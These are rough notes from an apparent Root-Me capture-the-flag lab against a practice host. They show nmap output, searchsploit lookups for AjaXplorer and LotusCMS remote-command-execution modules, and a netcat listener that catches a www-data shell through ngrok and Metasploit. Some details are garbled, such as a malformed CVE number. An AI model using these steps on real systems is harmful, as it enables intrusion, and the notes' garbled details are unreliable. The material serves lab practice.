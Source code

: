 rootme command injection OS
target : ctf16.root-me.org
Host is up (0.10s latency).
Not shown: 96 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open   http
5900/tcp closed vnc
8080/tcp open   http-proxy
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE PROPFIND PROPPATCH MKCOL COPY MOVE LOCK UNLOCK
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Login
|_Requested resource was http://ctf16.root-me.org:8080/zport/acl_users/cookieAuthHelper/login_form?came_from=http%3A//ctf16.root-me.org%3A8080/zport/dmd/
```
AJAXplorer 2.5.5
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/Rootme]
└─# searchsploit ajaxplorer 2.5.5
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
Pydio / AjaXplorer < 5.0.4 - (Unauthenticated) Arbitrary File | php/webapps/46206.txt
-------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
found CVE-63552
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/Rootme]
└─# searchsploit ajaxplorer              
-------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                    |  Path
-------------------------------------------------------------------------------------------------- ---------------------------------
AjaXplorer - 'checkInstall.php' Remote Command Execution (Metasploit)                             | php/remote/21993.rb

to get shell
I fired up my ngrok and Metasploit 
I use lhost as ngrok and port as ngrok port
also i openned a netcat listner. i use python reverse shell


pass = a3c570f9fe8ad7b6b3040a30047b31ef


2. LotusCMS RCE

```
└─# searchsploit lotuscms
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)                         | php/remote/18565.rb
LotusCMS 3.0.3 - Multiple Vulnerabilities                                             | php/webapps/16982.txt
```

use metasploit open ngrok tcp and start listner and metasploit
└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45392
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Now i use :      Nom d’utilisateur : securitytube
    Mot de passe : 123321 Durée de la partie : 240 min to privilege escalation